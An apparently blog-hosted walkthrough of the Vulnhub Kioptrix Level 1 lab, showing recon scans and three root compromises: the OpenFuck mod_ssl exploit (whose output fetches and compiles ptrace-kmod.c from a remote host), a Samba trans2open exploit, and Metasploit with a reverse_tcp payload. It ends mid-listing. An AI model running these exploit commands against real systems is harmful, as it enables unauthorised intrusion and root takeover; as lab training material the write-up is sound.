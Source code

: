 ```yaml
---
layout: post
title: "Vulnhub: K1optr1x 1"
categories: vulnhub
author: "dib"
permalink: /vulnhub/kp1/
tags: vulnhub
---
```

> "Learning is not attained by chance. It must be sought for with ardor and attended with diligence." – Abigail Adams  
  
We'll be doing the first level of Vulnhub's K1optr1x series. You can download the machine here [K1optr1x: Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)  

![][1]  

### 0x00 Recon

<details>
  <summary>
    get vm's IP
  </summary>

<pre>
&nbsp;
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> sudo arp-scan 192.168.222.0/24  
[sudo] password for imd:   
Interface: eth0, type: EN10MB, MAC: 00:0c:29:30:67:4e, IPv4: 192.168.222.129  
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)  
192.168.222.1   00:50:56:c0:00:08       VMware, Inc.  
192.168.222.2   00:50:56:e7:41:94       VMware, Inc.  
192.168.222.130 00:0c:29:2f:e1:7        VMware, Inc.  
192.168.222.254 00:50:56:e4:e3:5b       VMware, Inc.  

</pre>  
</details>  
  
Target IP Address: 192.168.222.130

### 0x01 Scanning

Let's first scan it using NMAP. If you want to know what my nmap commands are doing, go check it [here](https://nmap.org/book/man-briefoptions.html) 

<details>
  <summary>
    nmap scan
  </summary>

<pre>
&nbsp;
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> nmap -Pn -n -vvvv -sV -p- 192.168.222.130
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-05 05:58 EST
NSE: Loaded 45 scripts for scanning.
Initiating Connect Scan at 05:58
Scanning 192.168.222.130 [65535 ports]
Discovered open port 22/tcp on 192.168.222.130
Discovered open port 80/tcp on 192.168.222.130
Discovered open port 139/tcp on 192.168.222.130
Discovered open port 443/tcp on 192.168.222.130
Discovered open port 111/tcp on 192.168.222.130
Discovered open port 1024/tcp on 192.168.222.130
Completed Connect Scan at 05:59, 9.91s elapsed (65535 total ports)
Initiating Service scan at 05:59
Scanning 6 services on 192.168.222.130
Completed Service scan at 05:59, 14.04s elapsed (6 services on 1 host)
NSE: Script scanning 192.168.222.130.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 05:59
Completed NSE at 05:59, 2.07s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 05:59
Completed NSE at 05:59, 2.01s elapsed
Nmap scan report for 192.168.222.130
Host is up, received user-set (0.0016s latency).
Scanned at 2020-12-05 05:58:58 EST for 29s
Not shown: 65529 closed ports
Reason: 65529 conn-refused
PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 2.9p2 (protocol 1.99)
80/tcp   open  http        syn-ack Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp  open  rpcbind     syn-ack 2 (RPC #100000)
139/tcp  open  netbios-ssn syn-ack Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   syn-ack Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open  status      syn-ack 1 (RPC #100024)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.65 seconds

</pre>  
</details>  
  
There are 6 open ports and the services running under each port. Let's check each open port. port 80 is open. Opened firefox and simply browse to http://192.168.222.130  

[![][2]][2]

It's a test page, I viewed the source code and there's nothing much I can find. We can attempt to scan if there are hidden files and directories but I don't think this is the way it was built by the creator. 

<details>
  <summary>
    dirb scan
  </summary>

<pre>
&nbsp;
<b>imd@kali:~$</b> dirb http://192.168.222.130

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Dec 10 13:14:09 2020
URL_BASE: http://192.168.222.130/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.222.130/ ----
+ http://192.168.222.130/~operator (CODE:403|SIZE:273)                                                                                                               
+ http://192.168.222.130/~root (CODE:403|SIZE:269)                                                                                                                   
+ http://192.168.222.130/cgi-bin/ (CODE:403|SIZE:272)                                                                                                                
+ http://192.168.222.130/index.html (CODE:200|SIZE:2890)                                                                                                             
==> DIRECTORY: http://192.168.222.130/manual/                                                                                                                        
==> DIRECTORY: http://192.168.222.130/mrtg/                                                                                                                          
==> DIRECTORY: http://192.168.222.130/usage/                                                                                                                                                       
---- Entering directory: http://192.168.222.130/manual/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                  
---- Entering directory: http://192.168.222.130/mrtg/ ----
+ http://192.168.222.130/mrtg/index.html (CODE:200|SIZE:17318)                                                                                                                                                    
---- Entering directory: http://192.168.222.130/usage/ ----
+ http://192.168.222.130/usage/index.html (CODE:200|SIZE:4262)      

-----------------
END_TIME: Thu Dec 10 13:14:59 2020
DOWNLOADED: 13836 - FOUND: 6

</pre> 
</details>  
  
~root and ~operator is forbidden, manual dir are just manual docs, the rest are not found or nothing interesting. Now let's dig deeper and scan the web using Nikto.  

<details>
  <summary>
    scanning phase
  </summary>

<pre>
&nbsp;
<b>imd@kali:~$</b> nikto -h http://192.168.222.130
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.222.130
+ Target Hostname:    192.168.222.130
+ Target Port:        80
+ Start Time:         2020-12-05 06:01:50 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.1.1). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
<u>+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.</u>
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS).
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ /wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /assets/mobirise/css/meta.php?filesrc=: A PHP backdoor file manager was found.
+ /login.cgi?cli=aa%20aa%27cat%20/etc/hosts: Some D-Link router remote command execution.
+ /shell?cat+/etc/hosts: A backdoor was identified.
+ 8724 requests: 0 error(s) and 30 item(s) reported on remote host
+ End Time:           2020-12-05 06:02:37 (GMT-5) (47 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

</pre>
</details>  
  
Web server is apache 1.3.20 and VM is running Red Hat Linux. possible remote shell on mod_ssl 2.8.4-7. exploit-db is my preferred website searching CVEs  
[](https://www.exploit-db.com/exploits/764)

### 0x02 Method 1: Openfuck exploit

<details>
  <summary>
    searchsploit result
  </summary>

<pre>
&nbsp;
<b>imd@kali:~$</b> searchsploit OpenFuckV2
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)                                                          | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                                          | unix/remote/47080.c
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

</pre>  
</details>  
  
So now we know OpenFuck exploit, download it and let's follow the instruction inside the comment block. I've downloaded the updated version by typing the command `searchsploit -m 47080.c`

<details>
  <summary>
    compile openfuck
  </summary>

<pre>
&nbsp;
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> searchsploit -m 47080.c
  Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)
      URL: https://www.exploit-db.com/exploits/47080
     Path: /usr/share/exploitdb/exploits/unix/remote/47080.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/imd/ctfs/vulnhub/kioptrix1/47080.c

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> mv 47080.c openfuck.c
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> sudo apt-get install libssl-dev
[sudo] password for imd: 
Reading package lists... Done
Building dependency tree       
Reading state information... Done
libssl-dev is already the newest version (1.1.1g-1+0~20200421.17+debian10~1.gbpf6902f).
0 upgraded, 0 newly installed, 0 to remove and 169 not upgraded.

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> gcc -o openfuck openfuck.c -lcrypto  
  
</pre>
</details>  
  
Run the exploit first to see the options how to use it. It requires you to input the offset, target IP, port, and number of connections. 
`Usage: ./openfuck target box [port] [-c N]`  

<details>
  <summary>
    openfuck result
  </summary>

<pre>
&nbsp;
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./openfuck
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./openfuck 0x6b 192.168.222.130 443 -c 50

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f82e0
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--14:57:47--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   1.66 KB/s

14:57:54 (1.66 KB/s) - `ptrace-kmod.c' saved [3921/3921]

gcc: file path prefix `/usr/bin' never used
[+] Attached to 7914
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
<p style="color:#05c820">
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root
uname -a
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
</p>

</pre>
</details>

There we have it, root access! You can go further changing the root password or create another user with root privileges for maintaning access but is not necessary since we already have root. Challenge complete.. Congrats!

<details>
  <summary>
    root access
  </summary>
  
<pre>
&nbsp;
passwd root
New password: root
BAD PASSWORD: it is too short
Retype new password: root
Changing password for user root
passwd: all authentication tokens updated successfully

</pre>
</details>  
  
![][3]

### 0x03 Method 2: Samba exploit

Earlier we saw port 139 (Samba) is open. Let's scan what version it is and search for a possible exploit

<details>
  <summary>
    samba scan
  </summary>

<pre>
&nbsp;
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> nbtscan 192.168.222.130
Doing NBT name scan for addresses from 192.168.222.130

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
192.168.222.130  KIOPTRIX         <server>  KIOPTRIX         00:00:00:00:00:00

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> enum4linux -a 192.168.222.130
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Dec 10 16:12:25 2020

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 192.168.222.130
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ======================================================= 
|    Enumerating Workgroup/Domain on 192.168.222.130    |
 ======================================================= 
[+] Got domain/workgroup name: MYGROUP

 =============================================== 
|    Nbtstat Information for 192.168.222.130    |
 =============================================== 
Looking up status of 192.168.222.130
        KIOPTRIX        <00> -         B <ACTIVE>  Workstation Service
        KIOPTRIX        <03> -         B <ACTIVE>  Messenger Service
        KIOPTRIX        <20> -         B <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
        MYGROUP         <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        MYGROUP         <1d> -         B <ACTIVE>  Master Browser
        MYGROUP         <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 ======================================== 
|    Session Check on 192.168.222.130    |
 ======================================== 
[+] Server 192.168.222.130 allows sessions using username '', password ''

 ============================================== 
|    Getting domain SID for 192.168.222.130    |
 ============================================== 
Domain Name: MYGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 ========================================= 
|    OS information on 192.168.222.130    |
 ========================================= 
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 192.168.222.130 from smbclient: 
[+] Got OS info for 192.168.222.130 from srvinfo:
        KIOPTRIX       Wk Sv PrQ Unx NT SNT Samba Server
        platform_id     :       500
        os version      :       4.5
        server type     :       0x9a03

 ================================ 
|    Users on 192.168.222.130    |
 ================================ 
Use of uninitialized value $users in print at ./enum4linux.pl line 874.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 877.

Use of uninitialized value $users in print at ./enum4linux.pl line 888.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 890.

 ============================================ 
|    Share Enumeration on 192.168.222.130    |
 ============================================ 

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       IPC Service (Samba Server)
        ADMIN$          IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------
        KIOPTRIX             Samba Server

        Workgroup            Master
        ---------            -------
        MYGROUP              KIOPTRIX

[+] Attempting to map shares on 192.168.222.130
//192.168.222.130/IPC$  [E] Can't understand response:
NT_STATUS_NETWORK_ACCESS_DENIED listing \*
//192.168.222.130/ADMIN$        [E] Can't understand response:
tree connect failed: NT_STATUS_WRONG_PASSWORD

 ======================================================= 
|    Password Policy Information for 192.168.222.130    |
 ======================================================= 
[E] Unexpected error from polenum:


[+] Attaching to 192.168.222.130 using a NULL share

[+] Trying protocol 139/SMB...

        [!] Protocol failed: SMB SessionError: 0x5

[+] Trying protocol 445/SMB...

        [!] Protocol failed: [Errno Connection error (192.168.222.130:445)] [Errno 111] Connection refused


[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 0


 ================================= 
|    Groups on 192.168.222.130    |
 ================================= 

[+] Getting builtin groups:
group:[Administrators] rid:[0x220]
group:[Users] rid:[0x221]
group:[Guests] rid:[0x222]
group:[Power Users] rid:[0x223]
group:[Account Operators] rid:[0x224]
group:[System Operators] rid:[0x225]
group:[Print Operators] rid:[0x226]
group:[Backup Operators] rid:[0x227]
group:[Replicator] rid:[0x228]

[+] Getting builtin group memberships:
Group 'Power Users' (RID: 547) has member: Couldn't find group Power Users
Group 'Users' (RID: 545) has member: Couldn't find group Users
Group 'Backup Operators' (RID: 551) has member: Couldn't find group Backup Operators
Group 'Print Operators' (RID: 550) has member: Couldn't find group Print Operators
Group 'Guests' (RID: 546) has member: Couldn't find group Guests
Group 'System Operators' (RID: 549) has member: Couldn't find group System Operators
Group 'Administrators' (RID: 544) has member: Couldn't find group Administrators
Group 'Replicator' (RID: 552) has member: Couldn't find group Replicator
Group 'Account Operators' (RID: 548) has member: Couldn't find group Account Operators

[+] Getting local groups:
group:[sys] rid:[0x3ef]
group:[tty] rid:[0x3f3]
group:[disk] rid:[0x3f5]
group:[mem] rid:[0x3f9]
group:[kmem] rid:[0x3fb]
group:[wheel] rid:[0x3fd]
group:[man] rid:[0x407]
group:[dip] rid:[0x439]
group:[lock] rid:[0x455]
group:[users] rid:[0x4b1]
group:[slocate] rid:[0x413]
group:[floppy] rid:[0x40f]
group:[utmp] rid:[0x415]

[+] Getting local group memberships:

[+] Getting domain groups:
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]

[+] Getting domain group memberships:
Group 'Domain Admins' (RID: 512) has member: Couldn't find group Domain Admins
Group 'Domain Users' (RID: 513) has member: Couldn't find group Domain Users

<b>imd@kali:~$</b> nmap --script smb-enum-shares -p 139 192.168.222.130
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-11 04:14 EST
Nmap scan report for 192.168.222.130
Host is up (0.00091s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn

Nmap done: 1 IP address (1 host up) scanned in 5.50 seconds

<b>imd@kali:~$</b> smbmap -H 192.168.222.130 -P 139
[+] Guest session   .   IP: 192.168.222.130:139 Name: 192.168.222.130 

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> smbclient -L 192.168.222.130
Server does not support EXTENDED_SECURITY  but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful
Enter WORKGROUP\imd's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       IPC Service (Samba Server)
        ADMIN$          IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.
Server does not support EXTENDED_SECURITY  but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful

        Server               Comment
        ---------            -------
        KIOPTRIX             Samba Server

        Workgroup            Master
        ---------            -------
        MYGROUP              KIOPTRIX

</pre>
</details>  

Note: if you got an error `[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.` add this line on /etc/samba/smb.conf under [global] `client min protocol = CORE` it should look like this  

<details>
  <summary>
    smb.conf
  </summary>

```
#======================= Global Settings =======================

[global]

client min protocol = CORE


## Browsing/Identification ###

# Change this to the workgroup/NT-domain name your Samba server will part of
   workgroup = WORKGROUP      

```
</details>

Okay. We still can't figure out what is the samba version. Let's try other tools of the trade.
<details>
  <summary>
    smbver.sh
  </summary>

<pre>
&nbsp;
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./smbver.sh 192.168.222.130 139
192.168.222.130: 
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b>

</pre>
</details>

We tried to use [smbver.sh](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh) but nothing happened. Opened up wireshark and after capturing the packets, run the script and now we see **Samba 2.2.1a**

[![][4]][4]

Credits: [https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)

<details>
  <summary>
    root access
  </summary>

<pre>
&nbsp;
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> searchsploit samba 2.2.1
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)                                                                        | osx/remote/9924.rb
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                                                                                   | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap Overflow                                                                                               | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                       | linux_x86/dos/36741.py
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> searchsploit -m 10.c
  Exploit: Samba < 2.2.8 (Linux/BSD) - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/10
     Path: /usr/share/exploitdb/exploits/multiple/remote/10.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/imd/ctfs/vulnhub/kioptrix1/10.c


<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> gcc -o samba 10.c
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./samba 
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
Usage: ./samba [-bBcCdfprsStv] [host]

-b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
-B <step>       bruteforce steps (default = 300)
-c <ip address> connectback ip address
-C <max childs> max childs for scan/bruteforce mode (default = 40)
-d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)
-f              force
-p <port>       port to attack (default = 139)
-r <ret>        return address
-s              scan mode (random)
-S <network>    scan mode
-t <type>       presets (0 for a list)
-v              verbose mode

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./samba -b 0 192.168.222.130
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
<p style="color:#05c820">
uid=0(root) gid=0(root) groups=99(nobody)

whoami
root
</p>

</pre>
</details>

Searched for the exploit, download, compile, run. We're now root!

### 0x04 Method 3: Metasploit

<details>
  <summary>
    metasploit search
  </summary>

<pre>
&nbsp;
<b>imd@kali:~$</b> msfconsole

Metasploit tip: Metasploit can be configured at startup, see msfconsole --help to learn more

[*] Starting persistent handler(s)...
<b>msf5 ></b> search samba

Matching Modules
================

   #   Name                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                 ---------------  ----       -----  -----------
   0   auxiliary/admin/smb/samba_symlink_traversal                           normal     No     Samba Symlink Directory Traversal
   1   auxiliary/dos/samba/lsa_addprivs_heap                                 normal     No     Samba lsa_io_privilege_set Heap Overflow
   2   auxiliary/dos/samba/lsa_transnames_heap                               normal     No     Samba lsa_io_trans_names Heap Overflow
   3   auxiliary/dos/samba/read_nttrans_ea_list                              normal     No     Samba read_nttrans_ea_list Integer Overflow
   4   auxiliary/scanner/rsync/modules_list                                  normal     No     List Rsync Modules
   5   auxiliary/scanner/smb/smb_uninit_cred                                 normal     Yes    Samba _netr_ServerPasswordSet Uninitialized Credential State
   6   exploit/freebsd/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (*BSD x86)
   7   exploit/linux/samba/chain_reply                      2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   8   exploit/linux/samba/is_known_pipename                2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
   9   exploit/linux/samba/lsa_transnames_heap              2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   10  exploit/linux/samba/setinfopolicy_heap               2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   11  exploit/linux/samba/trans2open                       2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   12  exploit/multi/samba/nttrans                          2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   13  exploit/multi/samba/usermap_script                   2007-05-14       excellent  No     Samba "username map script" Command Execution
   14  exploit/osx/samba/lsa_transnames_heap                2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   15  exploit/osx/samba/trans2open                         2003-04-07       great      No     Samba trans2open Overflow (Mac OS X PPC)
   16  exploit/solaris/samba/lsa_transnames_heap            2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   17  exploit/solaris/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (Solaris SPARC)
   18  exploit/unix/http/quest_kace_systems_management_rce  2018-05-31       excellent  Yes    Quest KACE Systems Management Command Injection
   19  exploit/unix/misc/distcc_exec                        2002-02-01       excellent  Yes    DistCC Daemon Command Execution
   20  exploit/unix/webapp/citrix_access_gateway_exec       2010-12-21       excellent  Yes    Citrix Access Gateway Command Execution
   21  exploit/windows/fileformat/ms14_060_sandworm         2014-10-14       excellent  No     MS14-060 Microsoft Windows OLE Package Manager Code Execution
   22  exploit/windows/http/sambar6_search_results          2003-06-21       normal     Yes    Sambar 6 Search Results Buffer Overflow
   23  exploit/windows/license/calicclnt_getconfig          2005-03-02       average    No     Computer Associates License Client GETCONFIG Overflow
   24  exploit/windows/smb/group_policy_startup             2015-01-26       manual     No     Group Policy Script Execution From Shared Resource
   25  post/linux/gather/enum_configs                                        normal     No     Linux Gather Configurations

</pre>
</details>

Search for the exploit. Interact with a module by name or index, `use 15` or `use exploit/linux/samba/trans2open`

<details>
  <summary>
    root access
  </summary>

<pre>

<b>msf5 ></b> use exploit/linux/samba/trans2open
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
<b>msf5 exploit(linux/samba/trans2open) ></b> show options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.222.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


<b>msf5 exploit(linux/samba/trans2open) ></b> set RHOSTS 192.168.222.130
RHOSTS => 192.168.222.130
<b>msf5 exploit(linux/samba/trans2open) ></b> set LHOSTS 192.168.222.129
LHOSTS => 192.168.222.129
<b>msf5 exploit(linux/samba/trans2open) ></b> set RPORT 139
RPORT => 139
<b>msf5 exploit(linux/samba/trans2open) ></b> show payload
[-] Invalid parameter "payload", use "show -h" for more information
<b>msf5 exploit(linux/samba/trans2open) ></b> show payloads
<b>msf5 exploit(linux/samba/trans2open) ></b> show payloads

Compatible Payloads
===================

   #   Name                                      Disclosure Date  Rank    Check  Description
   -   ----                                      ---------------  ----    -----  -----------
   0   generic/custom                                             manual  No     Custom Payload
   1   generic/debug_trap                                         manual  No     Generic x86 Debug Trap
   2   generic/shell_bind_tcp                                     manual  No     Generic Command Shell, Bind TCP Inline
   3   generic/shell_reverse_tcp                                  manual  No     Generic Command Shell, Reverse TCP Inline
   4   generic/tight_loop                                         manual  No     Generic x86 Tight Loop
   5   linux/x86/adduser                                          manual  No     Linux Add User
   6   linux/x86/chmod                                            manual  No     Linux Chmod
   7   linux/x86/exec                                             manual  No     Linux Execute Command
   8   linux/x86/meterpreter/bind_ipv6_tcp                        manual  No     Linux Mettle x86, Bind IPv6 TCP Stager (Linux x86)
